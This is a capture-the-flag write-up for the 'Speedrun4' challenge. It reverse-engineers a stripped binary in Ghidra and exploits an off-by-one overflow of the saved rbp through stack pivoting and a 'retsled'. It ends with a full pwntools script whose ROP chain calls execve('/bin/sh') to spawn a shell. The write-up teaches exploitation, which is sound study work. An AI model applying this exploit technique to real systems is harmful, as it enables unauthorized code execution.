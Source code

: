 # Speedrun4  
![image](https://github.com/AndreQuimper/Writeups/assets/96965806/bb0a6084-d2e3-4ffb-86c4-66c7d8c80556)  

Let's see what happens when we run it  
![image](https://github.com/AndreQuimper/Writeups/assets/96965806/475323c1-01a6-490d-9530-2bc0624aeac2)  
Hm, the program gets interrupted after a few seconds... there must be something going on with a SIGALARM.  

Let's look at the binary in Ghidra to figure out what is going on. Note that since this binary is statically linked and stripped, we will have no symbols on anything including libc functions.  
I have already labeled most of the functions for better readability, but I'll provide the reasoning behind as I go.  

```c
main(undefined8 param_1,undefined8 param_2,undefined8 param_3,undefined8 param_4,undefined8 param_5,
    undefined8 param_6)

{
  long lVar1;
  
  FUN_00410e30(PTR_DAT_006b97a0,0,2,0,param_5,param_6,param_2);
  lVar1 = FUN_0040e840("DEBUG");
  if (lVar1 == 0) {
    set_alarm(5);
  }
  print_sum();
  stuff_happens_here();
  print_sum2();
  return 0;
}
```
The set alarm function I guessed by context and also by timing the amount of time it took for the program to SIGALARM.  
**TIP: at this point I decided to patch out the call to `set_alarm` to make debugging easier. You can do this in Ghidra.**  
Both `print_sum` functions, just call puts. Let's look at `stuff_happens_here`  

```c
void stuff_happens_here(void)

{
  char buf [9];
  undefined local_d;
  int how_much;
  
  puts("how much do you have to say?");
  read(0,buf,9);
  local_d = 0;
  how_much = atoi(buf);
  if (how_much < 1) {
    puts("That\'s not much to say.");
  }
  else if (how_much < 0x102) {
    vuln_func(how_much);
  }
  else {
    puts("That\'s too much to say!.");
  }
  return;
}

void vuln_func(int how_much)

{
  undefined buf [256];
  
  buf[0] = 0;
  puts("Ok, what do you have to say for yourself?");
  read(0,buf,(long)how_much);
  printf("Interesting thought \"%s\", I\'ll take it into consideration.\n",buf);
  return;
}
```
`read` and `atoi` I just labelled by context and also by looking at their function signatures. Notice that the first `read` is safe. However, we can pass 0x101 and then `vuln_func` will read 0x101 bytes into a 0x100 buffer.  
That means that we can overwrite the last byte of the saved `rbp`.


Ok, what can we do with that? Well, conveniently the disassembly looks like this.
```
                             LAB_00400c3a                                    XREF[1]:     00400c2a(j)  
        00400c3a 8b 45 fc        MOV        EAX,dword ptr [RBP + how_much]
        00400c3d 89 c7           MOV        EDI,EAX
        00400c3f e8 2f ff        CALL       vuln_func                                        undefined vuln_func(undefined4 h
                 ff ff
                             LAB_00400c44                                    XREF[2]:     00400c21(j), 00400c38(j)  
        00400c44 c9              LEAVE
        00400c45 c3              RET
```
Why is this important?  
Due to the way that function prologues and epilogues work, rbp and rsp depend on each other. 

```
| rbp --> saved rbp  |
|     return addr    |
```
The value that we return to is `rbp+8` (64 bit binary)

On the first return we can corrupt the saved `rbp`. Therefore we control `rbp`
Then we return again immediately. Since we control `rbp` we also control which pointer we return to.  

We can then redirect to a ROPCHAIN that we have on the stack.  
Since we are dealing with ASLR, we can try to maximize our chances of landing in our ROPCHAIN by overflowing the last byte of rbp with `0x00` and then having a RETSLED (I made it up)  
A RETSLED is a NOPSLED but with RET :)  

So, heres how our payload would look like
` | retsled | ropchain | 0x00 | `  
Our plan is that the corrupted rbp will result in us landing somewhere in our retsled which will eventually reach our ROPCHAIN.  

```python
#!/usr/bin/env python3
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'speedrun-004')

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
tbreak *0x{exe.entry:x}
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

io = start()

# plan is:
# 1: corrupt last byte of rbp so that we control rsp on next ret
# since we have two ret in a row, we can control next rbp which lets us control next rsp
# next ret => prev rbp+8
# 2: point rsp to ropchain in stack

how_much = b"257" #how much do you have to say?
io.sendline(how_much)

tot = 256
data_section = p64(0x6bc000)

ret = p64(0x0000000000400416)
syscall = p64(0x000000000040132c)
pop_rax_ret = p64(0x0000000000415f04)
pop_rdi_ret = p64(0x0000000000400686)
pop_rsi_ret = p64(0x0000000000410a93)
pop_rdx_ret = p64(0x000000000044c6b6)
mov_qword_ptr_rdi_rsi_ret = p64(0x000000000044788b)

'''
rax = 59 (execve)
rdi = ptr to '/bin/sh'
rsi = 0
rdx = 0
'''
ropchain = (pop_rdi_ret + data_section
            + pop_rsi_ret + p64(int.from_bytes(b'/bin/sh','little'))
            + mov_qword_ptr_rdi_rsi_ret # write binsh to memory
            + pop_rax_ret + p64(59)
            + pop_rsi_ret + p64(0)
            + pop_rdx_ret + p64(0)
            + syscall
)

retsled =  (tot-len(ropchain))//8 * ret  

payload = retsled + ropchain + b'\x00'

io.send(payload)

io.interactive()
```
![image](https://github.com/AndreQuimper/Writeups/assets/96965806/c29b93a3-1b24-4926-812d-71319e08d462)





